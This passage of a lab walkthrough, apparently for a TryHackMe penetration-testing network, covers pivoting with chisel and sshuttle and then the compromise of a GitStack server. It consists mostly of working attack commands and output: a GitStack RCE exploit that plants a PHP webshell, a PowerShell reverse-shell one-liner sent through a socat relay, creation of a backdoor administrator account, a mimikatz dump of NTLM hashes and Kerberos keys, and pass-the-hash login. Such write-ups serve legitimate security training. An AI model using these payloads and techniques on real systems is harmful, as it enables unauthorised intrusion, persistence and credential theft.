- Your IP 172.16.0.200 
- Backgrounding the process

`./chisel client 172.16.0.200:4242 R:socks &`

- Forward 172.16.0.100:3306 to your own port 33060 
- Using a chisel remote port forward 
- Your IP 172.16.0.200, listening port is 1337
- Background this process

`./chisel client 172.16.0.200:1337 33060:172.16.0.100:3306 &`

- Chisel server running on 172.16.0.5:4444
- Create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?

`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80` 

</details>

## 11. Pivoting - sshuttle

<details>
  <summary>---</summary>

- Uses SSH connection to create tunnelled proxy that acts like a new interface.
- Simulates a VPN
- Route traffice through proxy without using proxychains
- Encrypted connection
- Sits in the background and forward relevant traffic to target network

However
- Only works on Linux targets
- Requires access to compromised server via SSH
- Requires Python

1. Install sshuttle

`sshuttle -r username@address subnet`

2. Run sshuttle

eg: `sshuttle -r user@172.16.0.5 172.16.0.0/24`

We can avoid specifying subnet with `-N`. Not always successful.

`sshuttle -r username@address -N`

We also need to append `&`

Then enter username and password

Successful response:

`c: Connected to server.`

3. Run sshuttle with key based auth

Use `--ssh-cmd` switch followed by `ssh -i keyfile`

`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET`

eg. `sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24`

> Note: error may occur if it is part of subnet you are trying to access

```
client: Connected.
client_loop: send disconnect: Broken pipe
client: fatal: server died with error code 255
```

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24
c : Connected to server.
client_loop: send disconnect: Broken pipe
c : fatal: ssh connection to server (pid 38010) exited with returncode 255
```

ie. connecting to `172.16.0.5` and forward `172.16.0.0/24`. Including compromised server inside the newly forwarded subnet

We can get around this with `-x` to create connection without disrupting itself

eg. `sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5`

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

</details>

## 12. Pivoting - Conclusion

<details>
  <summary>---</summary>

- There are many ways to pivot through a network
- Proxychains and FoxyProxy are used to access a proxy
- SSH can be used to create both port forwards, and proxies
- plink.exe is an SSH client for Windows. Can create reverse SSH connections
- Socat can redirect connection and create port forwards
- Chisel can do the same thing as SSH port forwarding / tunnelling. Does not require SSH on the box
- sshuttle is nicer to create proxy when we have SSH access on target

</details>

## 13. Git Server- Enumeration

<details>
  <summary>---</summary>


Ping scan - `100` and `150` up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

Scanning 100 returns filtered
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning 150 returns a result
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

Scanning first 15000 port
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

</details>

## 14. Git Server - Pivoting

<details>
  <summary>---</summary>

Port 80 is interesting in 10.200.81.150.
We use sshuttle to ssh tunnel to 150 through 200 from the attacking machine

### ssh tunnel

Attacking box - this runs in the background with `-fN`
```
kali@kali:~/thm/wreath$ ssh -i ssh/webserver_id_rsa -L 8000:10.200.81.150:80 root@10.200.81.200 -fN
```

We navigate to `localhost:8000` and see an error page that tells us various accessible routes eg. `/gitstack`

![error page](gitPivot.png)

We navigate to `localhost:8000/gitstack` and see a log in page - default creds do not work

![gitstack](gitstack.png)

### sshuttle

TODO

Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

</details>

## 15. Git Server - Code (exploit) Review

<details>
  <summary>---</summary>

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Exploit copied might have DOS line endings. We can use a tool to convert this if this is the case
```
dos2unix ./43777.py
```
or
```
sed -i 's/\r//' ./EDBID.py
```

Check what version python this would run on with `print` statements (`print()` for python3 and `print ""` for python2)

1. Add shebang `#!/usr/bin/python2` so we can run `./43777.py`; or 
2. Run with python2 `python2 43777.py` without adding shebang to the file

Change the ip address to `localhost:8000` (ssh port forward method)

Change the ip address to target IP eg `10.200.85.150` (sshuttle method)

```python
ip = 'localhost:8000'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'
```

The command `whoami` will be run on execution

Last six lines of the exploit:
```python
print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `exploit.php` under webroot.

This can be accessed by posting a command to `/web/exploit.php`

</details>

## 16. Git Server - Exploitation

<details>
  <summary>---</summary>

> Note: For port forwarding method we use target: `localhost:8000`
> 
> Note: For sshuttle method we use target: `gitserver.thm`

### sshuttle method

First add `gitserver.thm` to `/etc/hosts`

```
kali@kali:~/thm/wreath$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.200.85.200   thomaswreath.thm
10.200.85.150   gitserver.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Start a sshuttle connection
```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

Run `43777.py` exploit with ip value of `10.200.85.150` - this exploit will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

Two options for reverse shell:
1. Change the command from `whoami` inside the exploit file but we need to run the exploit every time
2. Leverage same webshell to execute more commands without performing exploit twice 

We choose option 2 as it is quieter 

Webshell uploaded responds to POST request with param `a`. So we can do a curl - `curl -X POST http://IP/web/exploit.php -d "a=COMMAND"`

```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=whoami"
"nt authority\system
" 
```

Instead of curl we can also use burp proxy

1. Do a GET request to `http://gitserver.thm`
2. Intercept and send to repeater
3. Change method to a POST
4. Add `Content-Type: application/x-www-form-urlencoded`
5. Add `a=COMMAND`

![burp webshell command](burp-webshell.png)

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA368
Original Install Date:     08/11/2020, 13:19:49
System Boot Time:          17/04/2021, 01:06:51
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 24/08/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,381 MB
Virtual Memory: Max Size:  2,432 MB
Virtual Memory: Available: 1,876 MB
Virtual Memory: In Use:    556 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4580422
                           [02]: KB4512577
                           [03]: KB4580325
                           [04]: KB4587735
                           [05]: KB4592440
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.200.85.1
                                 IP address(es)
                                 [01]: 10.200.85.150
                                 [02]: fe80::24c6:6f4d:2503:aaa2
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
" 
```

We now need to check if the compromised server can access the outside world internet. 

- `tcpdump` capture
- `ping` to our IP

1. On our attacking machine: run `tcpdump` with `tun0` interface - `tcpdump -i tun0 icmp`. If our VPN is not using the `tun0` interface, we can check with `ip -a link`
2. On compromised server: run `ping -n 3 ATTACKING_IP`

Attacking machine - start `tcpdump`
```
kali@kali:~/thm/wreath$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Attacking machine - run `ping`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=ping -n 3 10.50.86.79"
"
Pinging 10.50.86.79 with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 10.50.86.79:
    Packets: Sent = 3, Received = 0, Lost = 3 (100% loss),
" 
```

Unfortunately no ping packets make it to our listener. We have two options

- Copy over `netcat` to our stable webshell in `.200`. Use this is catch a shell there; or
- Setup a relay in `.200` to forward shell back to listener

Lets choose socat relay.

1. Open desired ports in the firewall. This is because CentOS has a wrapper around IPTables firewall called `firewalld`

`firewall-cmd --zone=public --add-port PORT/tcp`

`--zone=public` - apply rule to every inbound connection to this port

Web server .200
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

2. Set up nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

3. Set up a relay on .200 (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

4. Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

### Port forward method

The method is similar but the attacking IP is different

We first run a port forward

Attacking box
```
kali@kali:~/thm/wreath$ ssh -i ssh/webserver_id_rsa -L 8000:10.200.85.150:80 root@10.200.85.200 -fN
```

Modify `43777.py` file with ip of `localhost:8000`

Then we run exploit which executes `whoami` which returns `NT AUTHORITY\SYSTEM` - highest ranking local account on Windows

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

We can use curl to run commands (or burp)
```
kali@kali:~/thm/wreath$ curl -X POST http://localhost:8000/web/exploit-Neozer0.php -d "a=whoami"
"nt authority\system
" 
```

Everything else is the same as the sshuttle

</details>

## 17. Git Server - Stabilisation and Post Exploitation

<details>
  <summary>---</summary>

We know two ports are open on target `.150` - 3389 (RDP) and 5985 (WinRM)

We need a user account (rather than service account) with:
- `Remote Desktop Users` group for RDP (`Administrators` group trumps the RDP group)
- `Remote Management Users` group for WinRM. 

Since we already have ultimate access, we can create these accounts

1. Create the account `net user USERNAME PASSWORD /add`
2. Add account in the Administrators and Remote Management Users groups `net localgroup Administrators USERNAME /add` and `net localgroup "Remote Management Users" USERNAME /add`

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```

Confirm user and groups
```
PS C:\GitStack\gitphp> net user Neozer0
User name                    Neozer0
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            17/04/2021 12:44:07
Password expires             Never
Password changeable          17/04/2021 12:44:07
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users                
Global Group memberships     *None                 
The command completed successfully.
```

We can now access this box with new user login

3. Install winrm `sudo gem install evil-winrm`
4. Connect to target `evil-winrm -u USERNAME -p PASSWORD -i TARGET_IP`

for SSH port forward - a second tunnel needs to be created to access port 5985 - `-i 127.0.0.1 -P 58950`

```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Remote Management Users                               Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192

```

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`

![xfreerdp](xfreerdp-share-folder.png)

run cmd as admin and run mimikatz

We can obtain the hashes by using `lsadump::sam`

```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                      mimikatz # log c:\windows\temp\mimikatz.log                                                                                                 Using 'c:\windows\temp\mimikatz.log' for logfile : OK                                                                                                                                                                                                                                   mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                                                                           SysKey : 0841f6354f4b96d21b99345d07b66571                                                                                                   Local SID : S-1-5-21-3335744492-1614955177-2693036043                                                                                                                                                                                                                                   SAMKey : f4a3c96f8149df966517ec3554632cf4                                                                                                                                                                                                                                               RID  : 000001f4 (500)                                                                                                                       User : Administrator                                                                                                                          Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1                                                                                                                                                                                                                                           Supplemental Credentials:                                                                                                                   * Primary:NTLM-Strong-NTOWF *                                                                                                                   Random Value : 68b1608793104cca229de9f1dfb6fbae
...
RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: 02d90eda8f6b6b06c32d5f207831101f                                                                                                                                                                                                             Supplemental Credentials:                                                                                                    * Primary:NTLM-Strong-NTOWF *                                                                                                    Random Value : 03126107c740a83797806c207553cef7                                                                                                                                                                                                       * Primary:Kerberos-Newer-Keys *                                                                                                  Default Salt : GIT-SERVThomas                                                                                                Default Iterations : 4096                                                                                                    Credentials                                                                                                                    aes256_hmac       (4096) : 19e69e20a0be21ca1befdc0556b97733c6ac74292ab3be93515786d679de97fe                                  aes128_hmac       (4096) : 1fa6575936e4baef3b69cd52ba16cc69                                                                  des_cbc_md5       (4096) : e5add55e76751fbc                                                                                OldCredentials                                                                                                                 aes256_hmac       (4096) : 9310bacdfd5d7d5a066adbb4b39bc8ad59134c3b6160d8cd0f6e89bec71d05d2                                  aes128_hmac       (4096) : 959e87d2ba63409b31693e8c6d34eb55                                                                  des_cbc_md5       (4096) : 7f16a47cef890b3b                                                                                                                                                                                                         * Packages *                                                                                                                     NTLM-Strong-NTOWF                                                                                                                                                                                                                                     * Primary:Kerberos *                                                                                                             Default Salt : GIT-SERVThomas                                                                                                Credentials                                                                                                                    des_cbc_md5       : e5add55e76751fbc                                                                                       OldCredentials                                                                                                                 des_cbc_md5       : 7f16a47cef890b3b                                

```

![xfreerdp mimikatz](xfreerdp-mimikatz.png)

Two options to maintain persistent to the server:
1. We can try crack the hash and use the password to log in; or
2. We can use built in pass-the-hash

To pass the hash we use `-H` switch instead of `-p` switch for `evil-winrm`

`evil-winrm -u Administrator -H ADMIN_HASH -i IP`

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```


</details>

## 18. Command and Control - Introduction

<details>
  <summary>---</summary>

</details>
